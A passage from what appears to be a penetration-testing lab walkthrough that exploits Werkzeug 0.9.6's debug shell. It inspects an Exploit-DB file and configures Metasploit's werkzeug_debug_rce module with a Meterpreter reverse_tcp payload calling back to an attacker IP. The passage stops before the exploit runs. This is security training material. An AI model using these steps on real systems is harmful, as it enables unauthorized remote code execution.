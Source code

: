 The suggested ruby exploit is located at/usr/share/exploitdb/exploits/python/remote/37814.rb.

Inspect this file to determine if the current version of werkzeug is vulnerable to the "Debug Shell" command execution or not:

Command:

cat /usr/share/exploitdb/exploits/python/remote/37814.rb

![](../media/Blackbox%20lab%20INE_91.png)

As you can clearly see, Werkzeug version 0.9.6 is vulnerable to command execution.

Now that we have identified the running application and discovered the vulnerability, we will exploit it next.

Step 5: Searching for Werkzeug exploit modules in the Metasploit Framework.

Start Metasploit framework and search for werkzeug exploit modules:

Commands:

msfconsole -q

search werkzeug

The above set of commands would start metasploit in quiet mode (that is, we won't get a big banner) and then look for werkzeug related exploit modules.

![](../media/Blackbox%20lab%20INE_92.png)

Notice that there is a Metasploit module for Werkzeug. We will use this for exploitation in the subsequent steps.

Step 6: Checkingwerkzeug_debug_rcemodule options.

Let's use the identified werkzeug module:exploit/multi/http/werkzeug_debug_rceand list the options that we need to configure for this module.

Commands:

use exploit/multi/http/werkzeug_debug_rce

show options

![](../media/Blackbox%20lab%20INE_93.png)

The following options are to be set:

       -  RHOSTS: It's the IP or URL of the target machine. In our case, it's , where the werkzeug service is running.
       -  PORT: is set to 80 by default, for this module. Since the service is running on port 80 on the target machine, nothing needs to be done.
       -  PAYLOAD: Set it topython/meterpreter/reverse_tcpto get back the meterpreter shell session.
       -  LHOST: Set it to the IP address of the host machine (the Kali GUI instance), where we expect to receive back the meterpreter shell session, that is,192.73.96.2. But this IP might be different in your case, so make sure you set it properly. Otherwise the exploit won't work!
       -  LPORT: Set it to a port where we expect to receive back the meterpreter shell session. Let's keep it at it's default value.
Now that we know of all the options and the values we need to fill in, let's do that next.
